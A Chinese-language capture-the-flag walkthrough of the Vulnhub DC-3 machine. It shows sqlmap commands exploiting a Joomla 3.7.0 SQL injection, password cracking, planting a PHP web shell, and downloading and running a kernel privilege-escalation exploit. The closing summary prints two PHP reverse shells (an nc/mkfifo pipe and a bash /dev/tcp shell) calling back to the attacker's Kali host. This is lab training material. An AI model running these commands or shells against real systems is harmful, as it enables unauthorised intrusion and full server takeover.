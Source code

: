 ```yaml
---
title: 'DC-3 : Walkthrough'
date: 2020-05-11T13:57:46+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| DC-3      | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1.png](https://i.loli.net/2020/05/11/Xb7l25yrF9agYcB.png) 

### 访问Web并确定web应用

根据 Nmap 扫描结果可知，web 应用程序运行 **Joomla** 开源 CMS系统，但没有版本号

![2.png](https://i.loli.net/2020/05/11/BKXV9Cnl56RdPDq.png) 

访问 **80** 端口，从首页中我们知道该系统存在账户 _admin_，并且有登录框，因此我们可以采取密码爆破。不过我们应该将它作为备用方案，因为这是一件费时的事。

既然我们已经知道了运行的程序，接下来的任务是找到它的版本号，并且根据版本号上网查找是否存在漏洞。

幸运的是，在 Debian 发行版中有针对于 Joomla 的检测工具，执行命令下载并运行

`apt-get install joomscan`

`joomscan -u http://192.168.1.108`

![3.png](https://i.loli.net/2020/05/11/SlV741eCUr5EJj2.png) 

根据检测结果，顺利得到 Joomla 的版本号：**3.7.0**

![4.png](https://i.loli.net/2020/05/11/2yFxEH5mt3ioaQP.png) 

查看 _42033.txt_（**`/usr/share/exploitdb/exploits/php/webapps/42033.txt`**）

<pre><code class="line-numbers">sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
</code></pre>

修改其中部分信息

<pre><code class="line-numbers">sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --dbs -p list[fullordering] --batch
</code></pre>

![5.png](https://i.loli.net/2020/05/11/rDJwBtWhc4i3QZb.png) 

接下来就是 _sqlmap_ 工具的使用

<pre><code class="line-numbers">sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomladb --tables -p list[fullordering] --batch
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomladb -T #__users --dump -p list[fullordering]
</code></pre>

![6.png](https://i.loli.net/2020/05/11/Qo9X2zM5rGWDlHT.png) 

使用 _john_ 工具进行密码爆破

![7.png](https://i.loli.net/2020/05/11/xfrpWEsH8GB2kJq.png) 

至此我们得到账户和密码：`admin:snoopy`

### Getshell

使用账号密码登录系统（`http://192.168.1.108/administrator/`），并且在模板中新建 _shell.php_ 文件，之后访问地址：`http://192.168.1.108/templates/protostar/shell.php`

![9.png](https://i.loli.net/2020/05/11/QcI7Tq4prnMF9Jf.png) 

在 Kali 上监听 **6677** 端口后查看系统内核和发行版

![10.png](https://i.loli.net/2020/05/11/iZKhe3yBu987lOS.png) 

### 提权

根据内核版本搜索可利用漏洞

![11.png](https://i.loli.net/2020/05/11/Sk8NnHCbfGUhlpL.png) 

发现都是 **64** 位操作系统，但目标系统是 **32** 位，那我们搜索发行版本号试试

![12.png](https://i.loli.net/2020/05/11/KBjOxUiZuyP4cGD.png) 

从中找出**本地提权**的可利用漏洞，那么就选择图中选中部分，查看`/usr/share/exploitdb/exploits/linux/exploits/linux/local/39772.txt`文本内容，看来需要我们下载压缩包，接下来照着提示内容做就行

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip && cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

![8.png](https://i.loli.net/2020/05/11/XGznZcBmJysLUDW.png) 

### 总结

  1. 确认 web fingerprint 信息可以采用： 
      1. `whatweb http://192.168.1.108`
      2. `curl -I http://192.168.1.108`
      3. Firefox 插件 Wappalyzer
  2. PHP shell 
      1. 代码1

```php
<?php
system('rm /tmp/aa;mkfifo /tmp/aa;cat /tmp/aa | /bin/bash -i 2>&1 | nc 192.168.1.112 6677 > /tmp/aa');
?>
```

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.1.112/6677 0>&1' ");
?>
```

